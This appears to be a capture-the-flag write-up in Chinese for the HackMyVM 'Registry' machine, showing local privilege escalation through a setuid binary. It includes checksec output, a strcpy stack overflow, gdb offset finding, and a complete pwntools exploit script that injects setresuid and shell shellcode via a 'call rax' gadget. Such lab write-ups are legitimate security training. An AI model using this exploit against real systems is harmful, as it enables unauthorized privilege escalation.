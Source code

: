 ```yaml
---
title: 'heackmyvmRegistry'
date: 2024-11-07 13:00:00 +0800
categories: []
tags: [hack,pwn]
---
```

### program

```shell
bamuwe@bamuwe:~$ checksec program
[*] '/program'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

> 保护全关，可以考虑写入shellcode

```c
char *__fastcall vuln(const char *a1)
{
  char dest[128]; // [rsp+10h] [rbp-80h] BYREF

  return strcpy(dest, a1);		//stackoverflow
}
```

> 漏洞函数

```shell
bamuwe@bamuwe:/mnt/c/Users/qianenzhao/Desktop/R$ gdb program
...
pwndbg> set args `cyclic 200`
pwndbg> r
*RIP  0x4011d9 (vuln+47) ◂— ret
____________________________________________________
 ► 0x4011d9 <vuln+47>    ret    <0x6261616b6261616a>
 ...
 bamuwe@bamuwe:~$ cyclic -l 0x6261616b6261616a
136
```

> 确定padding=136

```shell
www-data@registry:/opt/others$ ls -l
ls -l
total 16
-rwsr-xr-x 1 cxdxnt cxdxnt 15976 Jul 24  2023 program
```

思路：

1. 写入`shellcode`，填充到`ret`指令，再调用`call rax`执行`shellcode`

			2. `shellcode`由提升权限`(cxdxnt)`和获取`shell`两部分组成

```python
from pwn import *
context.arch = 'amd64'
shellcode = asm(shellcraft.setresuid())+asm(shellcraft.sh())
padding = 136
payload = shellcode.ljust(padding,b'A')+p32(0x401014)
shell = process(['./program',payload])
shell.interactive()
```



